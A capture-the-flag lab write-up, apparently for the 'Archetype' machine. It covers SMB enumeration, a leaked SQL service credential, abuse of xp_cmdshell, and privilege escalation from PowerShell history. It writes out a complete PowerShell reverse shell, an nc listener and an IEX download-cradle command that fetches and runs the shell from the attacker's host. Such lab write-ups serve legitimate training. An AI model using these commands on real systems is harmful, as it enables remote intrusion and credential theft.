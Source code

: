 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

## Recon-Enumeration  
nmap -A 10..10.10.27  
![alt text](./img/archetype01.png?raw=true)  
Port 139 and 445 are open, so SMB is active. Let's try connect to it with guest creds 
![alt text](./img/archetype02.png?raw=true)  
The folders needed a credential to access, however the backups folder didn't...
![alt text](./img/archetype03.png?raw=true)  

Let’s get this file and read it  
![alt text](./img/archetype04.png?raw=true)  

Found a credential:
- User = ARCHETYPE\sql_svc
- Password = M3g4c0rp123

## Exploit

DTConfiguration is part of a SQL Server configuration. So let’s try to connect to it  
![alt text](./img/archetype05.png?raw=true)

We found some tables with the command: “select * from information_schema.tables”. However there is nothing useful inside. So let’s see if we can execute commands here.  
Doing a research we can find something about xp_cmdshell.  
![alt text](./img/archetype06.png?raw=true)

Wow, let’s try to obtain more info about the system (if need to activate xp_cmdshell try this [link](https://stackoverflow.com/questions/5131491/enable-xp-cmdshell-sql-server))  
![alt text](./img/archetype07.png?raw=true)

Now let’s create as reverse shell ps1 file:

> $client = New-Object System.Net.Sockets.TCPClient("10.10.14.7",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String);$sendback2=$sendback+"# ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

After create the file set an http server and a listener:

sudo python3 -m http.server 80  
nc -nvlp 4444  

On the compromised machine run the command:  
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.7/shell.ps1\")"

A shell must appear in the nc listening port.

## Privesc  
Since we are running Powershell, let’s see the command history executed in it  
![alt text](./img/archetype08.png?raw=true)  

Ok, another credential. Let’s try to use it with smbclient  
![alt text](./img/archetype09.png?raw=true)

## Discoveries
Credentials:  
- administrator:MEGA*******
